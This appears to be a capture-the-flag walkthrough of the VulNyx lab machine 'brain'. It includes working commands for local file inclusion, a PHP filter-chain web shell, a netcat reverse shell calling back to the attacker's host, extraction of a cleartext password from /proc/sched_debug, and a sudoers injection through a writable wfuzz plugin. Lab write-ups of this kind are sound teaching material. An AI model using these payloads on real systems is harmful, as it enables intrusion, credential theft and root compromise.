

# brain

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| brain | d4t4s3c | Low | VulNyx |

**Summary:** The brain machine ran an Apache web server on port 80 with a PHP application that accepted an `include` parameter, which was vulnerable to local file inclusion and PHP filter chain exploitation. Fuzzing the parameter name with ffuf returned the value `include`, and confirming the LFI with `/etc/passwd` revealed a local user named `ben`. Generating a PHP filter chain with the `php_filter_chain` utility allowed weaponizing the include path to execute arbitrary commands, and a BusyBox netcat reverse shell was triggered to obtain a foothold as `www-data`. Inspecting `/proc/sched_debug` from the web shell exposed the process list for user `ben`, which contained the cleartext password `B3nP4zz`. The compromised `www-data` session used `su` to switch to `ben`, and running LinPEAS identified a world writable Wfuzz plugin script at `/usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py`. Appending a sudoers rule to that file and invoking `sudo wfuzz` caused the poisoned script to execute as root, granting full `NOPASSWD` sudo privileges and an immediate root shell for complete system compromise.

---

## Reconnaissance

The assessment began by locating the target machine on the local network and identifying its TCP attack surface.

1. An Nmap host discovery sweep located the target at `192.168.56.134`:

```zsh
/tmp/nyx                                                                                                    11:08:50
❯ nmap -sn 192.168.56.0/24            
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-23 11:08 +0700
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00027s latency).
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.00045s latency).
Nmap scan report for 192.168.56.134 (192.168.56.134)
Host is up (0.0032s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.03 seconds

/tmp/nyx                                                                                                    11:08:56
❯ ip=192.168.56.134
```

2. A full TCP port scan revealed two open services:

```zsh
/tmp/nyx                                                                                                    11:09:04
❯ nmap -p- -Pn -T4 --min-rate 4000 $ip
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-23 11:09 +0700
Nmap scan report for 192.168.56.134 (192.168.56.134)
Host is up (0.00024s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds
```

3. Service and script detection confirmed OpenSSH 7.9p1 and Apache 2.4.38 on Debian:

```zsh
/tmp/nyx                                                                                                    11:09:10
❯ nmap -p 22,80 -sCV -Pn -T4 --min-rate 4000 $ip
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-23 11:09 +0700
Nmap scan report for 192.168.56.134 (192.168.56.134)
Host is up (0.00019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 32:95:f9:20:44:d7:a1:d1:80:a8:d6:95:91:d5:1e:da (RSA)
|   256 07:e7:24:38:1d:64:f6:88:9a:71:23:79:b8:d8:e6:57 (ECDSA)
|_  256 58:a6:da:1e:0f:89:42:2b:ba:de:00:fc:71:78:3d:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

The web service returned no page title, which suggested an unusual or minimal application.

---

## Web Enumeration

### Local File Inclusion Discovery

4. An initial HTTP request to the root path returned a page with task scheduler output and no title:

```zsh
/tmp/nyx                                                                                                    11:10:00
❯ curl -iv http://$ip/                       
*   Trying 192.168.56.134:80...
* Established connection to 192.168.56.134 (192.168.56.134 port 80) from 192.168.56.1 port 60234 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 192.168.56.134
> User-Agent: curl/8.21.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Sun, 23 Aug 2026 04:10:30 GMT
Date: Sun, 23 Aug 2026 04:10:30 GMT
< Server: Apache/2.4.38 (Debian)
Server: Apache/2.4.38 (Debian)
< Vary: Accept-Encoding
Vary: Accept-Encoding
< Content-Length: 361
Content-Length: 361
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
< 

<pre>
runnable tasks:
 S           task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
-----------------------------------------------------------------------------------------------------------
 S        systemd     1      2927.102286      1731   120         0.000000       509.025216         0.000000 0 0 /
</pre>

* Connection #0 to host 192.168.56.134:80 left intact
```

5. Fuzzing the URL parameter name with ffuf identified the `include` parameter by filtering out the default 361 byte response:

```zsh
/tmp/nyx                                                                                                    11:14:28
❯ ffuf -u "http://$ip?FUZZ=/etc/passwd" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fs 361

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       git-20260719-8162f487
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.134?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 361
________________________________________________

include                 [Status: 200, Size: 1750, Words: 125, Lines: 34, Duration: 2ms]
:: Progress: [220559/220559] :: Job [1/1] :: 1612 req/sec :: Duration: [0:01:51] :: Errors: 0 ::
```

6. Confirming the LFI by requesting `/etc/passwd` through the `include` parameter returned the full password file and disclosed the user `ben`:

```zsh
/tmp/nyx                                                                                             3m 19s 11:14:13
❯ curl "http://192.168.56.134/index.php?include=/etc/passwd" 
<pre>
runnable tasks:
 S           task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
-----------------------------------------------------------------------------------------------------------
 S        systemd     1      2927.102286      1731   120         0.000000       509.025216         0.000000 0 0 /
</pre>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ben:x:1000:1000:ben,,,:/home/ben:/bin/bash
```

The `include` parameter accepted arbitrary file paths, confirming a local file inclusion vulnerability that could be escalated to remote code execution through PHP filter chains.

---

## Initial Access

### PHP Filter Chain Remote Code Execution

7. The `php_filter_chain` utility was used to generate a filter chain payload that would decode to a system call executing the `cmd` parameter:

```zsh
/tmp/nyx                                                                                                    11:26:10
❯ php_filter_chain --chain '<?php system($_GET["cmd"]); ?>'
[+] The following gadget chain will generate the following code : <?php system($_GET["cmd"]); ?> (base64 value: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.i...
```

8. The filter chain was injected through the browser, and command execution was confirmed:



9. A BusyBox netcat reverse shell payload was delivered through the same parameter to connect back to a listener:

```zsh
&cmd=busybox nc 192.168.56.1 4444 -e /bin/bash
```

10. Penelope received the reverse shell as `www-data` on port 4444:

```zsh
/tmp/nyx                                                                                            10m 50s 11:27:36
❯ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 192.168.1.6 • 192.168.56.1
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => brain 192.168.56.134 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>
[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/setyanoegraha/.penelope/sessions/brain~192.168.56.134-Linux-x86_64/2026_08_23-11_33_04-326-www-data_33.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@brain:/var/www/html$ cat /proc/sched_debug | grep ben
 S    ben:B3nP4zz   412      2531.168242        52   120         0.000000         2.836680         0.000000 0 0 /
www-data@brain:/var/www/html$ su - ben
Password: 
ben@brain:~$ id
uid=1000(ben) gid=1000(ben) grupos=1000(ben)
ben@brain:~$ 
```

Inspecting `/proc/sched_debug` from the `www-data` shell exposed the process table, which contained the cleartext password `B3nP4zz` embedded in the task name for user `ben`. The password was used to `su` into the `ben` account.

---

## Privilege Escalation

### Writable Wfuzz Plugin Script Abuse

11. Sudo permissions for `ben` showed passwordless access to `/usr/bin/wfuzz`:

```bash
ben@brain:~$ sudo -l
Matching Defaults entries for ben on Brain:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ben may run the following commands on Brain:
    (root) NOPASSWD: /usr/bin/wfuzz
ben@brain:~$ 
```

12. Running LinPEAS identified a world writable Wfuzz plugin file that could be modified by `ben`:

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200) (T1574.009,T1574.010)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
/home/ben
/run/lock
/run/user/1000
/run/user/1000/systemd
/tmp
/tmp/linpeas_host_checker_2713.err
/tmp/linpeas_host_checker_2713.json
/tmp/linpeas_host_checker_7629.err
/tmp/linpeas_host_checker_7629.json
/usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py
/var/lib/php/sessions
/var/tmp
╔══════════╣ Writable root-owned executables I can modify (max 200) (T1574.009,T1574.010)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
-rwxrwxrwx 1 root root 1519 abr 19  2023 /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py
```

The file `/usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py` was writable by everyone, including `ben`.

13. A malicious import was appended to the Wfuzz plugin script to inject a sudoers rule when executed, and `sudo wfuzz` was used to trigger it as root:

```bash
ben@brain:~$ cat >> /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py << 'EOF'
> import os
> os.system("echo 'ben ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers")
> EOF
ben@brain:~$ sudo wfuzz -z range,1-1 http://127.0.0.1/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://127.0.0.1/FUZZ
Total requests: 1

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=404      9 L       31 W          271 Ch        "1"

Total time: 0.003953
Processed Requests: 1
Filtered Requests: 0
Requests/sec.: 252.9431

ben@brain:~$ sudo -l
Matching Defaults entries for ben on Brain:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ben may run the following commands on Brain:
    (root) NOPASSWD: /usr/bin/wfuzz
    (ALL : ALL) NOPASSWD: ALL
ben@brain:~$ sudo -i
root@brain:~# id;whoami;hostname
uid=0(root) gid=0(root) grupos=0(root)
root
brain
```

The injected Python code executed when `sudo wfuzz` loaded the plugin, appending a `NOPASSWD: ALL` rule for `ben` to `/etc/sudoers`. Running `sudo -i` then dropped directly into a root shell.

14. Both the user and root flags were retrieved:

```bash
root@brain:~# cat /home/ben/user.txt /root/root.txt 
4be...
08c...
```

---

## Attack Chain Summary

1. **Reconnaissance**: Network scanning identified `192.168.56.134` with SSH on port 22 and Apache on port 80, returning no page title but task scheduler output.

2. **Vulnerability Discovery**: Fuzzing the URL parameter with ffuf revealed the `include` parameter, and confirming local file inclusion with `/etc/passwd` disclosed the user `ben`.

3. **Exploitation**: A PHP filter chain was generated to execute system commands through the `include` parameter, and a BusyBox netcat reverse shell provided a foothold as `www-data`.

4. **Internal Enumeration**: Reading `/proc/sched_debug` exposed the cleartext password `B3nP4zz` for user `ben`, and LinPEAS identified a world writable Wfuzz plugin script.

5. **Privilege Escalation**: A sudoers rule was injected into the writable Wfuzz plugin and executed via `sudo wfuzz`, granting full `NOPASSWD` sudo privileges and an immediate root shell.
